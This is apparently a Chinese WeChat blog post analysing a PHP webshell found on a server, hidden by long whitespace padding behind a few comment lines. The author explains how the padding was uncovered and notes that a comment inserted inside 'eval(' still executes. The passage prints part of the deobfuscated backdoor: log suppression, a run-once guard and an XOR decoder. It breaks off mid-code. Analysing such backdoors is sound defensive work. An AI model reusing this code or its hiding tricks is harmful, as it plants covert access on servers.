 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzAxMzg4NDg1NA==&mid=2247484029&idx=1&sn=06bfd2fb382364e1572ae391d8c8be4a&chksm=9b9a8ea4aced07b2ca61b33b68f74ad2e28cf27848940d89362389eb6bac977927d99ecd6603&mpshare=1&scene=1&srcid=1013LQRZPJylbVZtyUZAR7hf&sharer\_sharetime=1602633065793&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=d1b2c53fcb9e77ee70f6bc50307d73985f16d8e7dc67df821afad8e8e352c4872bcef19c49762ad4e3d0043a4d8384ae74a2efc37016e2fc4c059fe1b02275af41a4f3af160b53db0ca284e54194fdf0602e35d043b97a114f7ab9c6e77f72485322fc2ee2ff304bf6a703b208e4ed3e22498ec2e678bcfb917f9333e5ba1788&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=Adxht5bRTRLY%2BqteXmOIwbs%3D&pass\_ticket=5iBkjjQtfbEoCMU4%2BnfhOAJi%2FVJ%2BFty3yCm8kFn8GVUk3mWzBKMJBjfoyOfZ%2B5pr&wx\_header=0)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqczeflvHvDexuf2BhBEBYlJCdjJS6aVZ0w6ooY5QwK27L2khaJWEOVdw2kunkBTviakCv6QeGxYjHg/640?wx_fmt=png)

最近遇到个文件，打开一看只有几行注释？看了下字节数却很大，横向进度条很长啊，通过 web 访问是空白，看上去应该是藏了后门了。  
    ps: 这种方式遇到粗心 / 没有经验的管理员可能混过去，但若使用 win 自带的记事本 (需开启自动换行) 则一览无余。  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbiaqWibtvftYwtZODR0VC7KHqsQjoz6gW7EBGjl3ibVlDsPR9gO4aOlrMw/640?wx_fmt=png)  
实际上换行整理一下：

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbB4zhlibSHpyEyQiadiareMOvG5G2eMombRa5OTicXw64gYodFlgWJTsE0g/640?wx_fmt=png)

  
用 Notepad++ 自带的正则替换简单做了下格式处理。

  
另外在下面的代码中发现了 **eval/\*r49557ec\*/(**  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbwm2hVs3VobcrNibzBeGLjV65tHIJlRz2BT9CjeaF5uMhTzysibibhL2Tw/640?wx_fmt=png)  
  还插了注释，这个小方法很有意思，测试了下函数与 "(" 中间插注释确实不影响执行。  
  但实际我测试用类似的注释方式填充敏感函数，过不了 D 盾。  
**一. 还原庐山真面目**  
**在进行替换 / 整理 / 和谐部分变量名之后，得到如下完整后门代码 (整理后代码)：**

```
<?php
$da59aa5 = 208;
$GLOBALS\['w8fd00d8'\] = Array();
global $w8fd00d8;
$w8fd00d8 = $GLOBALS;
${"\\x47\\x4c\\x4fB\\x41\\x4c\\x53"}\['a904'\] = "\\x2f\\x25\\x32\\x54\\x75\\x3a\\x5e\\x36\\x31\\x48\\x21\\x5b\\x30\\x66\\x20\\x5f\\x56\\x5a\\x4d\\x23\\x3e\\x37\\x71\\x29\\x26\\x2c\\x68\\x7e\\x5c\\x9\\x64\\x69\\x6e\\x3c\\x6b\\x2b\\x61\\x2d\\x4a\\x47\\x42\\x7c\\xa\\x6a\\x7b\\x6f\\x52\\x27\\x4c\\x39\\x55\\x63\\x4b\\x7a\\x49\\x3f\\x5d\\x76\\x33\\x59\\x43\\x62\\x24\\x38\\x79\\x70\\x72\\x67\\x28\\x35\\x46\\x3d\\x7d\\x65\\x57\\x41\\x53\\x44\\x73\\x60\\x58\\x34\\x77\\x22\\x6c\\x6d\\x4e\\x45\\x4f\\x40\\x78\\x74\\x50\\xd\\x2a\\x2e\\x3b\\x51";
@ini\_set('error\_log', NULL);
@ini\_set('log\_errors', 0);
@ini\_set('max\_execution\_time', 0);
@set\_time\_limit(0);
if (!defined('ALREADY\_RUN\_366afb8a8a2355ab21fbf11ba1a02fba')){
        define('ALREADY\_RUN\_366afb8a8a2355ab21fbf11ba1a02fba', 1);
        $vv = NULL;
        $kk = NULL;
        $w8fd00d8\['c77700426'\] = 'aec7e489-2fbc-4b15-871f-1d686eeb80dc';
        global $c77700426;
        function  e664fd($vv, $kk){
        global $w8fd00d8;
        $n513761 = "";
        for ($i=0;$i<strlen($vv);){
                for ($p=0;$p<strlen($kk) && $i<strlen($vv);$p++, $i++){
                        $n513761 .= chr(ord($vv\[$i\]) ^ ord($kk\[$p\]));
                }
        }
        return $n513761;
        }

        function  x184f5cc($vv, $kk){
```